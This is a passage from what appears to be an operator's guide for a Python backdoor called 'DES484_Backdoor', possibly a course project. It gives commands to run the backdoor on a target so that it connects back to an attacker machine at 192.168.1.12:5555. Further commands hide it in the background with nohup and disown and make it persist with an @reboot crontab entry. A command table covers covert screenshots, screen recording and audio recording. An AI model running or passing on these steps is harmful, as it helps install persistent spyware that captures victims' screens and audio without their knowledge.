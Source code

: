 #### 4.2 Execute Backdoor on Target

**Option 1: Direct execution:**

```bash
# On target machine
cd /tmp/DES484_Backdoor
python3 backdoor.py

# You should see:
# [*] Attempting to connect to 192.168.1.12:5555...
# [+] Connection established!
```

**Option 2: Background execution:**

```bash
# Run in background
nohup python3 backdoor.py > /dev/null 2>&1 &

# Or with systemd (Linux)
python3 backdoor.py &
disown
```

**Option 3: Scheduled execution:**

```bash
# Add to crontab (runs every reboot)
(crontab -l 2>/dev/null; echo "@reboot python3 /tmp/DES484_Backdoor/backdoor.py") | crontab -
```

#### 4.3 Verify Connection

On attacker machine, you should see:

```
[+] Connection established from 192.168.1.50:54321

=== System Information ===
Hostname: target-machine
System: Linux
Release: 5.15.0
...
```

### Phase 5: Testing Features

#### Command Reference

**Screen & Media Capture:**
| Command | Description | Example |
|---------|-------------|---------|
| `screenshot` | Capture single screenshot | `screenshot` |
| `screenshot_multi <count> <interval>` | Multiple screenshots | `screenshot_multi 5 2` |
| `screenshot_list` | List all screenshots | `screenshot_list` |
| `record_screen <duration> <fps>` | Record screen (timed) | `record_screen 30 15` |
| `record_start [max_duration]` | Start background recording | `record_start 3600` |
| `record_stop` | Stop background recording | `record_stop` |
| `record_status` | Check recording status | `record_status` |
| `record_list` | List all recordings | `record_list` |
| `audio_start` | Start background audio recording | `audio_start` |